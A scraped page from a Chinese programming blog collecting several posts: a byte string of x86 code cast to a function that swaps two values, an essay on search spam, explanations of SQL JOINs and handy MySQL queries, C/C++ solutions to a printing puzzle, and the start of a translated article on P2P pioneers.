<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=741635004&amp;adf=3911423466&amp;pi=t.aa~a.425447425~i.5~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684225046&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3572.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xrPr5n3CvfjqVMLSxSn632qe8TRtCcC1iul6kkkcqR8eGif3M5-fyumRZXKreuc5XZ4988o&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684226378208&amp;bpp=3&amp;bdt=3600&amp;idt=3&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D10f79cd37fd225d8-2254bbd932df007a%3AT%3D1684226377%3ART%3D1684226377%3AS%3DALNI_MbTwz9ERLCRvvD51JOTAk_4WvPa1g&amp;gpic=UID%3D0000098b16346c83%3AT%3D1684226377%3ART%3D1684226377%3AS%3DALNI_MbSUKrPXwJQ8WMCBTebMaaTf0LYXg&amp;prev_fmts=0x0%2C1200x280&amp;nras=3&amp;correlator=7520626523827&amp;frm=20&amp;pv=1&amp;ga_vid=479574193.1684226376&amp;ga_sid=1684226376&amp;ga_hid=1417996432&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=1195&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31071756%2C31074635%2C44788441%2C44792089&amp;oid=2&amp;psts=ABHeCviwduZVsEFDG5TH9AUod4XlHACyJg8TU3P7epJws4rMbU_iVeORRYqSBY7ZDnZWSVJbaf889o1u7-ZE&amp;pvsid=900503991886652&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F32&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=3&amp;uci=a!3&amp;btvi=1&amp;fsb=1&amp;xpc=BtAkCHRgy6&amp;p=https%3A//coolshell.cn&amp;dtd=11550" data-google-container-id="a!3" data-google-query-id="CL38rp24-f4CFX4jrQYdEqoBdA" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

其实，这种**用字符串来实现函数的方法**，在原理上是很好理解的。


字符串就是一段内存空间，把一个字符串指针强转成函数指针，那么这个指针所指向的内容就是各种指令，因此，那堆乱七八糟的东西说白了就是汇编。8086的汇编。你可以使用ndisasm来看看。

\# ruby -e "print \"\x8b\x44\x24\x04\x8b\x5c\x24\x08\x8b\x00\x8b\x1b\x31\xc3\x31\xd8\x31\xc3\x8b\x4c\x24\x04\x89\x01\x8b\x4c\x24\x08\x89\x19\xc3\"" | ndisasm -u -

00000000  8B442404          mov eax,[esp+0x4]       ; load pointers to two parameters into eax, ebx

00000004  8B5C2408          mov ebx,[esp+0x8]

00000008  8B00              mov eax,[eax]           ; load values of two parameters from pointers (*eax, *ebx) into eax, ebx

0000000A  8B1B              mov ebx,[ebx]

0000000C  31C3              xor ebx,eax             ; swap two values (eax, ebx) using xor trick

0000000E  31D8              xor eax,ebx

00000010  31C3              xor ebx,eax

00000012  8B4C2404          mov ecx,[esp+0x4]       ; load pointer to param 1 into ecx

00000016  8901              mov [ecx],eax           ; store swapped value 1 (eax) into param 1 (*ecx)

00000018  8B4C2408          mov ecx,[esp+0x8]       ; load pointer to param 2 into ecx

0000001C  8919              mov [ecx],ebx           ; store swapped value 2 (ebx) into param 2 (*ecx)

0000001E  C3                ret

<iframe id="aswift_3" name="aswift_3" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=741635004&amp;adf=3379359832&amp;pi=t.aa~a.425447425~i.14~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684225046&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3572.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xrPr5n3CvfjqVMLSxSn632qe8TRtCcC1iul6kkkcqR8eGif3M5-fyumRZXKreuc5XZ4988o&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684226378222&amp;bpp=2&amp;bdt=3615&amp;idt=2&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D10f79cd37fd225d8-2254bbd932df007a%3AT%3D1684226377%3ART%3D1684226377%3AS%3DALNI_MbTwz9ERLCRvvD51JOTAk_4WvPa1g&amp;gpic=UID%3D0000098b16346c83%3AT%3D1684226377%3ART%3D1684226377%3AS%3DALNI_MbSUKrPXwJQ8WMCBTebMaaTf0LYXg&amp;prev_fmts=0x0%2C1200x280%2C704x280&amp;nras=4&amp;correlator=7520626523827&amp;frm=20&amp;pv=1&amp;ga_vid=479574193.1684226376&amp;ga_sid=1684226376&amp;ga_hid=1417996432&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=2048&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31071756%2C31074635%2C44788441%2C44792089&amp;oid=2&amp;psts=ABHeCviwduZVsEFDG5TH9AUod4XlHACyJg8TU3P7epJws4rMbU_iVeORRYqSBY7ZDnZWSVJbaf889o1u7-ZE&amp;pvsid=900503991886652&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F32&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=4&amp;uci=a!4&amp;btvi=2&amp;fsb=1&amp;xpc=Q3Y37MTqVF&amp;p=https%3A//coolshell.cn&amp;dtd=11610" data-google-container-id="a!4" data-google-query-id="COO4sJ24-f4CFTgirQYdmiQMrg" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

注意：这段汇编中使用了XOR而不是引入第三个变量来完成了变量值的交换。

关于XOR的方式，参看下面的示例：

a = a^b;

b=a^b;

a=b^a; 

或者更为简单的：


a^=b^=a^=b;


(全文完)

# GOOGLE 需要性爱

#####  [2011年01月19日 ](https://coolshell.cn/articles/3510.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [8 条评论](https://coolshell.cn/articles/3510.html#comments) 10,905 人阅读

看到一篇趣文[Google Needs Sex](http://krugman.blogs.nytimes.com/2011/01/10/google-needs-sex/)，翻译过来。

Brad DeLong 给我们写了 [两篇关于“Google遇到的麻烦”的文章](http://delong.typepad.com/sdj/2011/01/trouble-in-the-house-of-google.html)(墙)，这两篇文章基本上是说， 制造网络欺诈和网络垃圾信息的人会尽其一切努力来和搜索引擎进行博弈，这样一来，其会让搜索到的结果对我们越来越没有帮助（译注：百度的竞价排名成为了制造网络欺诈和网络垃圾信息甚至洗脑的温床）。于是，人们开始去使用其它一些影响地较少的搜索引擎，准确的说，是那些垃圾信息和欺诈信息的东西还不适应于这些搜索引擎。

这让我想到了Sex。

如果你查看一下进化论，你就会知道为什么有性繁殖是有进化性的，是有可持续性的，而进化也是需要巨大的成本的。

为什么自然界不用克隆来繁殖呢？我所理解的最有说服力的答案是—— [防御寄生生物](http://www.sciencedaily.com/releases/2009/07/090706171542.htm)。如果每一代的生物体都和上一代完全的一样，寄生生物就总有一天可以破解生物体的防御，就是为什么！如果我们的某个香蕉园里种植着“克隆香焦” ，那么一旦某种病菌传播开来，那么我们整个香蕉园里的全部香蕉将毁于一旦。所以，混杂基因的模式会让寄生生物或病毒更难破坏我们的防御。

<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=936834558&amp;adf=723769664&amp;pi=t.aa~a.425447425~i.9~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684224633&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3510.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xiIIHVuqOQNXwDbgLV5ilPZ6p2iAAy2ZA2JeFWd_MZUp65N2LtBdk6ZKfBE8bdlwS3bOa0o&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684226498950&amp;bpp=1&amp;bdt=4944&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D10f79cd37fd225d8-2254bbd932df007a%3AT%3D1684226377%3ART%3D1684226377%3AS%3DALNI_MbTwz9ERLCRvvD51JOTAk_4WvPa1g&amp;gpic=UID%3D0000098b16346c83%3AT%3D1684226377%3ART%3D1684226377%3AS%3DALNI_MbSUKrPXwJQ8WMCBTebMaaTf0LYXg&amp;prev_fmts=0x0%2C1200x280%2C1447x764&amp;nras=4&amp;correlator=1877310880052&amp;frm=20&amp;pv=1&amp;ga_vid=479574193.1684226376&amp;ga_sid=1684226376&amp;ga_hid=1392623942&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=1286&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31071756%2C31074198%2C31074635%2C44788442%2C44789779&amp;oid=2&amp;psts=ABHeCvhE9Vg8BIVJNrbAp8OPeM41X2i62ALWYtDtLqyWZ4RlsUy4Xg7A4gHH2DwaI22K2Yn6NH5KGjeMqLM3HhFsxVDv&amp;pvsid=153750009671224&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F33&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=3&amp;uci=a!3&amp;btvi=1&amp;fsb=1&amp;xpc=4mWLVY0sBh&amp;p=https%3A//coolshell.cn&amp;dtd=16168" data-google-container-id="a!3" data-google-query-id="CNLRkNm4-f4CFVkirQYdkhYN0g" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

因此，Google的这些欺诈信息和垃圾信息就像是寄生在人体上的寄生体一样，它们已经非常适应Google的搜索引擎。（译注：百度上的寄生体则像是百度自己养的宠物）

我不知道“搜索引擎的性爱”会是什么样的，但是很明显，Google需要一些。

（全文完）

# 图解SQL的JOIN

#####  [2011年01月11日 ](https://coolshell.cn/articles/3463.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [184 条评论](https://coolshell.cn/articles/3463.html#comments) 108,775 人阅读

对于SQL的Join，在学习起来可能是比较乱的。我们知道，[SQL的Join语法](https://en.wikipedia.org/wiki/Join_(SQL))有很多inner的，有outer的，有left的，有时候，对于Select出来的结果集是什么样子有点不是很清楚。Coding Horror上有[一篇文章](http://www.codinghorror.com/blog/2007/10/a-visual-explanation-of-sql-joins.html)（实在不清楚为什么Coding Horror也被墙）通过 文氏图 [Venn diagrams](https://en.wikipedia.org/wiki/Venn_diagram) 解释了SQL的Join。我觉得清楚易懂，转过来。

假设我们有两张表。

- **Table A** 是左边的表。
- **Table B** 是右边的表。

其各有四条记录，其中有两条记录是相同的，如下所示：

```
id name       id  name
-- ----       --  ----
1  Pirate     1   Rutabaga
2  Monkey     2   Pirate
3  Ninja      3   Darth Vader
4  Spaghetti  4   Ninja
```

下面让我们来看看不同的Join会产生什么样的结果。


| `SELECT * FROM TableA **INNER JOIN** TableB ON TableA.name = TableB.name id  name       id   name --  ----       --   ---- 1   Pirate     2    Pirate 3   Ninja      4    Ninja`**Inner join** 产生的结果集中，是A和B的交集。 |       |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `SELECT * FROM TableA **FULL OUTER JOIN** TableB ON TableA.name = TableB.name id    name       id    name --    ----       --    ---- 1     Pirate     2     Pirate 2     Monkey     null  null 3     Ninja      4     Ninja 4     Spaghetti  null  null null  null       1     Rutabaga null  null       3     Darth Vader`**Full outer join** 产生A和B的并集。但是需要注意的是，对于没有匹配的记录，则会以null做为值。 |  |
| `SELECT * FROM TableA **LEFT OUTER JOIN** TableB ON TableA.name = TableB.name id  name       id    name --  ----       --    ---- 1   Pirate     2     Pirate 2   Monkey     null  null 3   Ninja      4     Ninja 4   Spaghetti  null  null`**Left outer join** 产生表A的完全集，而B表中匹配的则有值，没有匹配的则以null值取代。 |   |
| `SELECT * FROM TableA LEFT OUTER JOIN TableB ON TableA.name = TableB.name **WHERE TableB.id IS null**  id  name       id     name --  ----       --     ---- 2   Monkey     null   null 4   Spaghetti  null   null`产生在A表中有而在B表中没有的集合。 |             |
| `SELECT * FROM TableA FULL OUTER JOIN TableB ON TableA.name = TableB.name **WHERE TableA.id IS null OR TableB.id IS null** id    name       id    name --    ----       --    ---- 2     Monkey     null  null 4     Spaghetti  null  null null  null       1     Rutabaga null  null       3     Darth Vader`产生A表和B表都没有出现的数据集。 |                |

还需要注册的是我们还有一个是“交差集” **cross join**, 这种Join没有办法用文式图表示，因为其就是把表A和表B的数据进行一个N*M的组合，即笛卡尔积。表达式如下：

```
SELECT * FROM TableA
CROSS JOIN TableB
```

这个笛卡尔乘积会产生 4 x 4 = 16 条记录，一般来说，我们很少用到这个语法。但是我们得小心，如果不是使用嵌套的select语句，一般系统都会产生笛卡尔乘积然再做过滤。这是对于性能来说是非常危险的，尤其是表很大的时候。

***更新:2014年3月30日***


(全文完)

# 6个有用的MYSQL语句

#####  [2010年12月31日 ](https://coolshell.cn/articles/3433.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [9 条评论](https://coolshell.cn/articles/3433.html#comments) 19,933 人阅读

以前本站给大家介绍过《[MySQL性能优化的最佳20+条经验](https://coolshell.cn/articles/1846.html)》，今天给大家介绍六条比较有用的MySQL的SQL语句，可能很多人都通过PHP来实现这些功能。

目录


[1. 计算年数](https://coolshell.cn/articles/3433.html#1_计算年数)[2. 两个时间的差](https://coolshell.cn/articles/3433.html#2_两个时间的差)[3. 显示某一列出现过N次的值](https://coolshell.cn/articles/3433.html#3_显示某一列出现过N次的值)[4. 计算两个日子间的工作日](https://coolshell.cn/articles/3433.html#4_计算两个日子间的工作日)[5. 查找表中的主键](https://coolshell.cn/articles/3433.html#5_查找表中的主键)[6. 查看你的数库有多大](https://coolshell.cn/articles/3433.html#6_查看你的数库有多大)

#### 1. 计算年数

你想通过生日来计算这个人有几岁了。

**SELECT** DATE_FORMAT(FROM_DAYS(TO_DAYS(now()) - TO_DAYS(@dateofbirth)), '%Y') + 0;

#### 2. 两个时间的差

取得两个 datetime 值的差。假设 dt1 和 dt2 是 datetime 类型，其格式为 ‘yyyy-mm-dd hh:mm:ss’，那么它们之间所差的秒数为：

UNIX_TIMESTAMP( dt2 ) - UNIX_TIMESTAMP( dt1 )

除以60就是所差的分钟数，除以3600就是所差的小时数，再除以24就是所差的天数。

#### 3. 显示某一列出现过N次的值

**SELECT** id

**FROM** tbl

**GROUP** **BY** id

**HAVING** **COUNT**(*) = **N**;


#### 4. 计算两个日子间的工作日

所谓工作日就是除出周六周日和节假日。

**SELECT** **COUNT**(*)

**FROM** calendar

**WHERE** d BETWEEN Start AND Stop

  AND **DAYOFWEEK**(d) NOT IN(1,7)

  AND holiday=0;

#### 5. 查找表中的主键

**SELECT** k.column_name

**FROM** information_schema.table_constraints t

**JOIN** information_schema.key_column_usage k

**USING** (constraint_name,table_schema,table_name)

**WHERE** t.constraint_type='PRIMARY KEY'

  AND t.table_schema='db'

  AND t.table_name=tbl'

#### 6. 查看你的数库有多大

**SELECT**

  table_schema **AS** 'Db Name',

  Round( Sum( data_length + index_length ) / 1024 / 1024, 3 ) **AS** 'Db Size (MB)',

  Round( Sum( data_free ) / 1024 / 1024, 3 ) **AS** 'Free Space (MB)'

**FROM** information_schema.tables

**GROUP** **BY** table_schema ;

希望对你有帮助。

文章：[来源](http://www.codeforest.net/6-useful-mysql-queries)

# 输出从1到1000的数

#####  [2011年01月07日 ](https://coolshell.cn/articles/3445.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [70 条评论](https://coolshell.cn/articles/3445.html#comments) 30,633 人阅读

有这样一个面试题——**请把从1到1000的数打印出来，但你不能使用任何的循环语句或是条件语句。更不能写1000个printf或是cout**。**用C/C++语言**。

我相信，大多数人一开始你可能想到的是递归算法：

**void** f(**int** n){

​    printf("%d\n",n);

​    (1000-n) ? f(n+1) : exit(0) ;

}

**int** main(){

​    f(1);

}

<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=1398202579&amp;adf=303539329&amp;pi=t.aa~a.425447425~i.6~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684207445&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3445.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xnWICYxFR86kEhWqOG5sSt8ZM2shS8gR1fxv0M1fCTE4nuWYidHU-vCMa4-TQVFOjVt46C8&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684226586800&amp;bpp=1&amp;bdt=2928&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D10f79cd37fd225d8-2254bbd932df007a%3AT%3D1684226377%3ART%3D1684226377%3AS%3DALNI_MbTwz9ERLCRvvD51JOTAk_4WvPa1g&amp;gpic=UID%3D0000098b16346c83%3AT%3D1684226377%3ART%3D1684226377%3AS%3DALNI_MbSUKrPXwJQ8WMCBTebMaaTf0LYXg&amp;prev_fmts=0x0%2C1200x280%2C1447x764&amp;nras=4&amp;correlator=8218416457626&amp;frm=20&amp;pv=1&amp;ga_vid=479574193.1684226376&amp;ga_sid=1684226376&amp;ga_hid=1614842374&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=1049&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074635%2C44788441%2C44789923&amp;oid=2&amp;psts=ABHeCvie2HGyq15bH3Wni0ZG1IMksW1b5sRSWSOE1O7aTLUs1_nrAJn01vlk2YmV5kt23R8sp_VmUTaKSwdq&amp;pvsid=2994911653484168&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F33&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=3&amp;uci=a!3&amp;btvi=1&amp;fsb=1&amp;xpc=EVHywuqjPC&amp;p=https%3A//coolshell.cn&amp;dtd=14275" data-google-container-id="a!3" data-google-query-id="CJG-kIK5-f4CFYe_7Aod4aILuw" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

当然，题目中说了不能使用条件语句，所以，上面那种解法的不符合题意的，因为还是变向地使用了条件表达式。不过，我们可以用别的方法来让这个递归终止，比如：

除以零，当程序crash，呵呵。

**void** f(**int** n){

​    printf("%d\n",n);

​    n/(1000-n);

​    f(n+1);

}

还有这样退出递归的：


**void** yesprint(**int** i);

**void** noprint(**int** i);

**typedef** **void**(*fnPtr)(**int**);

fnPtr dispatch[] = { yesprint, noprint };

**void** yesprint(**int** i) {

​    printf("%d\n", i);

​    dispatch[i / 1000](i + 1);

}

**void** noprint(**int** i) { /* do nothing. */ }

**int** main() {

​      yesprint(1);

}

还有下面这些各种各样的解法：

**#include<stdio.h>**

/* prints number  i */

**void** print1(**int** i) {

​    printf("%d\n",i);

}

/* prints 10 numbers starting from i */

**void** print10(**int** i) {

​    print1(i);

​    print1(i+1);

​    print1(i+2);

​    print1(i+3);

​    print1(i+4);

​    print1(i+5);

​    print1(i+6);

​    print1(i+7);

​    print1(i+8);

​    print1(i+9);

}

/* prints 100 numbers starting from i */

**void** print100(**int** i) {

​    print10(i);

​    print10(i+10);

​    print10(i+20);

​    print10(i+30);

​    print10(i+40);

​    print10(i+50);

​    print10(i+60);

​    print10(i+70);

​    print10(i+80);

​    print10(i+90);

}

/* prints 1000 numbers starting from i */

**void** print1000(**int** i) {

​    print100(i);

​    print100(i+100);

​    print100(i+200);

​    print100(i+300);

​    print100(i+400);

​    print100(i+500);

​    print100(i+600);

​    print100(i+700);

​    print100(i+800);

​    print100(i+900);

}

**int** main() {

​        print1000(1);

​        **return** 0;

}

不过，print用得多了一些。我们可以用宏嘛。

**#include<stdio.h>**

**#define Out(i)       printf("%d\n", i++);**

**#define REP(N)       N N N N N N N N N N**

**#define Out1000(i)   REP(REP(REP(Out(i))));**

**void** main()

{

​    **int** i = 1;

​    Out1000(i);

}

不过，我们应该使用C++的一些特性，比如：

使用构造函数

**class** Printer

{

**public**:

​    Printer() { **static** unsigned i=1; cout << i++ << endl;; }

};

**int** main()

{

​    Printer p[1000];

}

或是更为NB的Template：

**template**<**int** N>

**struct** NumberGeneration{

​    **static** **void** out(std::ostream& os)

​    {

​        NumberGeneration<N-1>::out(os);

​        os << N << std::endl;

​    }

};

**template**<>

**struct** NumberGeneration<1>{

​    **static** **void** out(std::ostream& os)

​    {

​        os << 1 << std::endl;

​    }

};

**int** main(){

​    NumberGeneration<1000>::out(std::cout);

}

最后来个BT一点的：

**void** main(**int** j) {

​    printf("%d\n", j);

​    (main + (exit - main)*(j/1000))(j+1);

}

本文来自: http://stackoverflow.com/q/4568645/89806

# 偷了世界的程序员

#####  [2010年12月16日 ](https://coolshell.cn/articles/3363.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [88 条评论](https://coolshell.cn/articles/3363.html#comments) 95,385 人阅读

本文译自美国时代（time.com）的《[The Men Who Stole the World](http://www.time.com/time/specials/packages/printout/0,29239,2032304_2032746_2032903,00.html)》，原作者：Lev Grossman。相当有传奇色彩，读起来很爽，翻译过来。译得不好，还请大家指正。本中的四个程序员可能并不是那么声名显赫，而且也很不老实，或许算不上成功，不过他们的确改变了世界。**而本文有分析了互联网上P2P的那些事，相当的有参考价值**。

*2010年12月17日更新：修改了一些错误，理顺了一些语句。
2010年12月19日更新：增加了一些插图。*

————————正文————————

十年前，有四个年轻人改变了这个世界的运作方式。他们使用的并不是法律或是武器或是金钱，而是使用软件来改变世界。他们当时有着激进和极具破坏性的想法，并把这些想法付诸于代码，在Internet上以免费自由方式发布。这四个人，没有一个完成了大学学业，却奠定了今天我们习惯的数字媒体环境的基础。然后，因为各种原因，他们也迅速地消失在公众视野中。

1999年，美国东北大学的一个叫Shawn Fanning的一年级新生开发Napster，从此，成为了P2P文件共享和不需要大型机构或零售商就可以获得音乐的先锋和范例。《时代周刊》和《财富》把他放上了封面。那时，他在19岁。

<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=3730229879&amp;adf=2777553194&amp;pi=t.aa~a.425447425~i.9~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684201650&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3363.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xsT52Dh1_M6qWUBBs9DDJwKwJLF83YCtKWMLStiyLNut97-XZ4_eIXD-tv5zPSRX4WceWnM&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684226636488&amp;bpp=2&amp;bdt=7000&amp;idt=2&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D10f79cd37fd225d8-2254bbd932df007a%3AT%3D1684226377%3ART%3D1684226377%3